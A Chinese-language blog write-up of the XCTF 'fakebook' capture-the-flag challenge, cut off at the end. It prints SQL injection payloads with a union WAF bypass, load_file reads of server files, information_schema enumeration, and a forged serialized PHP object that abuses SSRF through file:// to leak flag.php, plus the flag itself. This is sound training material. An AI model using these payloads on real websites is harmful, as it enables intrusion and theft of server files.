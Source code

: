 ```yaml
---
title: XCTF_fakebook
date: 2021-09-29 21:38:33
updated: 2021-09-29 21:38:33
tags: [sql注入]
categories: XCTF
toc: true
---
```

XCTF_fakegame的一道有趣题

<!-- more -->
## 一、fakebook

![](https://i.loli.net/2021/09/28/6JiUIWxgj4rCchD.png)

发现是个登录注册页面，没有明确的目标，先用dirsearch扫描下目录

![](https://i.loli.net/2021/09/28/4VXyQCrAbuS1l5U.png)

查看flag.php,发现没任何内容，可能是不允许外网访问，考虑利用SSRF漏洞的可能性

查看/robots.txt发现`/user.php.bak`备份文件，下载查看

```php+HTML
<?php
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
}
```

解题的关键应该就是这个get函数传入的$url

注册一个账号：

![](https://i.loli.net/2021/09/28/xrydTuZwhEpXeas.png)

点击admin，观察URL发现有个传参

![](https://i.loli.net/2021/09/28/WqKFzX29t16ZlIY.png)

更改参数，发现两个报错

![](https://i.loli.net/2021/09/28/TMVbt7viIG3xrEf.png)

尝试sql注入：

```bash
view.php?no=1 and 1=1# 正常 
view.php?no=1 and 1=2# 报错
```

说明存在<font color='red'>整型注入</font>,接着使用union注入常用套路：

> 建议一边手工注入，一边开启sqlmap在后台跑，因为可能会出现waf

order by 时，4正常，5报错，所以column是4

![](https://i.loli.net/2021/09/28/8VQJMoKYf1tFmhD.png)

果不其然，使用union时，出现了waf：

![](https://i.loli.net/2021/09/28/cABgP3vqOi156VK.png)

尝试一些基本的绕过方式：[SQL注入--绕过技巧](https://blog.csdn.net/weixin_44940180/article/details/107717511)

```bash
view.php?no=2 union (select 1,2,3,4) #
```

应该是直接拦截`union select`，发现2的回显位置出现了

![](https://i.loli.net/2021/09/28/iDuy5AtSHGgZdko.png)

分别查看当前数据库和用户：

![](https://i.loli.net/2021/09/28/Khqo4XrGnPdYkTz.png)![image-20210928225336783](https://i.loli.net/2021/09/28/VjcwlKYa8nxWIyR.png)

发现用户竟然是<font color='red'>root</font>用户，看了别人的教程，发现此处满足 `load_file()`的所有条件，所以可以直接读取flag.php

```bash
view.php?no=2 union (select 1,load_file("/var/www/html/flag.php"),3,4)#
```

查看相应位置的源代码：

![](https://i.loli.net/2021/09/28/Q6KxkqWh4JEm2fu.png)



------

前面忙活了那么多，结果出来个root用户，下面尝试用正常union注入去找表和字段：

找表：

```bash
view.php?no=2 union (select 1,group_concat('<br>',table_name),3,4 from information_schema.tables where table_schema=database())#
```

只找到了`users`表，紧接着找字段：

```bash
view.php?no=2 union (select 1,group_concat('<br>',column_name),3,4 from information_schema.columns where table_name='users')#
```

![](https://i.loli.net/2021/09/28/wOfv2k9De3xjM7A.png)

前3个字段是知道的，现在查看`data`字段：

```bash
view.php?no=2 union (select 1,data,3,4 from users)#
```

![](https://i.loli.net/2021/09/28/YofrIXEsu3tROxP.png)

是序列化后的用户，那么整个博客页面是不是有可能由这几个字段，最可能是data字段进行渲染的？！

测试发现，当前面的no=3时，而<font color='red'>第四个</font>传入序列化的对象后，页面仍可以正常显示！

```bash
view.php?no=3 union (select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:7:"123.com";}')#
```

![](https://i.loli.net/2021/09/28/9Gx2oKNRbmpTqwI.png)

想到之前提过的SSRF，可以利用`file://`协议读取本地文件!

```bash
view.php?no=2 union (select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:5:"admin";s:3:"age";i:18;s:4:"blog";s:29:"file:///var/www/html/flag.php";}')#
```

没有出现什么东西，但查看源码发现一串很长的base64码

![](https://i.loli.net/2021/09/28/hIf3dyrvCKPpRoa.png)

解码得到：

```php
<?php

$flag = "flag{c1e552fdf77049fabf65168f22f7aeab}";
exit(0);
```

实际上在firefox渗透版里，直接点击就可以直接查看flag.php的源码：

![](https://i.loli.net/2021/09/28/lUHPewyV4MSZ7ft.png)

------

原本以为是道代码审计，结果是个注入，嗐，菜鸡只能走一步看一步。

听说在join的时候，有post的注入点，赶紧拿sqlmap试了下：



